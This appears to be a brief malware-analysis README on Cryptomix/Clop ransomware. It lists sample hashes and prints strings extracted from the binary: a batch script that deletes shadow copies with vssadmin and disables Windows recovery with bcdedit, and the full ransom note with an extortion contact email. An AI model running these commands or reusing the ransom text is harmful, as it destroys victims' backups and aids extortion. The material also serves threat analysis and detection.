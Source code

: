 # cryptomix-clop-ransomware

Cryptomix Ransomware Mal Helper

Packed Digital Signed Crypted Bin:
`SHA-256: 10f4be34c2e41e6c2d4932ab77f189cf5da659abd028537604eae6435c83516a`
Unpacked Ransomware Bin:
`SHA-256: MDYxOThmZWQwMjlhZGJjOTA3OTZjYTZkODNhNjc3ODk6MTU1MDc4Mjc4NA`
Reference: https://twitter.com/malwrhunterteam/status/1098578106112245760

```bytearray(b'@echo off\r\nvssadmin Delete Shadows /all /quiet\r\nvssadmin resize shadowstorage /for=c: /on=c: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded\r\nvssadmin resize shadowstorage /for=d: /on=d: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=d: /on=d: /maxsize=unbounded\r\nvssadmin resize shadowstorage /for=e: /on=e: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=e: /on=e: /maxsize=unbounded\r\nvssadmin resize shadowstorage /for=f: /on=f: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=f: /on=f: /maxsize=unbounded\r\nvssadmin resize shadowstorage /for=g: /on=g: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=g: /on=g: /maxsize=unbounded\r\nvssadmin resize shadowstorage /for=h: /on=h: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=h: /on=h: /maxsize=unbounded\r\nvssadmin Delete Shadows /all /quiet\t\t\r\nbcdedit /set {default} recoveryenabled No\r\nbcdedit /set {default} bootstatuspolicy ignoreallfailures\t ')```

```bytearray(b'!Your networks has been penetrated!\r\nAll files on each host in the network have been encrypted with a strong algorithm!!!\r\nBackups were either encrypted or deleted or backup disks were formatted!!!\r\nShadow copies also removed, so F8 or any other methods may damage encrypted data but not recover!!!\r\nWe exclusively have decryption software for your situation.\r\nNo DECRYPTION software is AVAILABLE in the PUBLIC.\r\n* DO NOT DELETE readme files.\r\n* DO NOT RENAME OR MOVE the encrypted and readme files.\r\n* DO NOT RESET OR SHUTDOWN \xe2\x80\x93 files may be damaged.\r\n!!!THIS MAY LEAD TO THE IMPOSSIBILITY OF RECOVERY OF THE CERTAIN FILES!!!\r\n!!!ALL REPAIR TOOLS ARE USELESS AND CAN DESTROY YOUR FILES IRREVERSIBLY!!!\r\nIf you want to restore your files write to emails. \r\n[CONTACTS ARE AT THE BOTTOM OF THE SHEET] and attach 2 - 3 encrypted files.\r\n[Less than 6 Mb each, non-archived and your files should not contain valuable information\r\n[Databases, backups, large excel sheets, etc.]]!\r\n!!You will receive decrypted samples and our conditions how to get the decoder!!!\r\n\r\n***ATTENTION***\r\n!!!YOUR WARRANTY  -  DECRYPTED SAMPLES!!!\r\nDO NOT TRY TO DECRYPT YOUR DATA USING THIRD PARTY SOFTWARE!!!\r\nWE DON`T NEED YOUR FILES AND YOUR INFORMATION!!!\r\n\r\nContacts E-MAIL: \r\nunlock@eqaltech.su \r\n\r\n***THE FINAL PRICE DEPENDS ON HOW FAST YOU WRITE TO US***\r\n===Nothing personal just business===  Clop^_-')```

